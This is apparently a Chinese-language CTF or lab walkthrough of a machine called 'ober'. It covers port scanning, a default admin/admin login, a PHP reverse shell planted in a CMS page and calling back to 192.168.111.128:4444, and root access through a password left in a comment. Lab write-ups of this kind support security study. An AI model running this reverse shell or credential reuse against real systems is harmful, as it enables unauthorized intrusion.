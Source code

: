 # ober
nmap扫描
![](vx_images/236840338048155.png)
![](vx_images/421064815476448.png)
80端口扫一下目录,扫到后台,弱口令尝试一下阿达,admin/admin直接进了
![](vx_images/123782891862975.png)
有文件上传功能
测试了一下是白名单上传

看了下历史漏洞
![](vx_images/229445061976885.png)
msf模块也利用失败

![](vx_images/222288180130377.png)

直接在网站添加新页面,写入反弹shell
![](vx_images/91384825320975.png)
直接报错
![](vx_images/183105304087848.png)
没看懂是什么问题?不支持exec?
看了下原因
```
紧随其后的 == 之后的部分是 ​​PHP 代码区块​。这个区块的用途非常特定：
​主要目的​：在这个区块内，您应该编写PHP函数定义或类定义，以便在后面的Twig模板区块中调用。
在这个特定的 [PHP] 区块里，原则上您只能编写函数（Function）或常量（Const）的定义，而不能直接写执行语句。
```
```
<?php
function onstart(){
    exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.111.128/4444 0>&1'");
}
?>
```
成功获取shell
接下来提权
sudp -l无法使用,查找一下suid提权
![](vx_images/410589271680788.png)
同样没有啥可以用的
看了下开放服务,和端口
没什么想法单数是能拿到数据库用户的
![](vx_images/584718750928034.png)
这里看到密码被注释了,猜测不会是root用户的密码吧,试了下ssh登录,还真的登上了
![](vx_images/541913478922583.png)
复盘:
看了下别人的思路
拿shell的地方存在twing模板注入

